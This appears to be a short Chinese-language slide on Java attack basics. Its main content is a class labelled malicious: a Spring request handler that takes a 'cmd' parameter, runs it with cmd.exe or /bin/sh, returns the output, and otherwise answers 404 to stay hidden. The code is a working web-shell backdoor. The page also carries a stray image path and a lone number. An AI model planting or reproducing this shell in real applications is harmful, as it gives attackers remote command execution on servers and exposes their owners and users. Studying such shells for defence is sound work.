

# 基本概念
恶意类：
    public void test() throws  IOException{
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();

        //exec
        try {
            String arg0 = request.getParameter("cmd");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
                String o = "";
                java.lang.ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new java.lang.ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                }else{
                    p = new java.lang.ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            }else{
                response.sendError(404);
            }
        }catch (Exception e){}
    }

40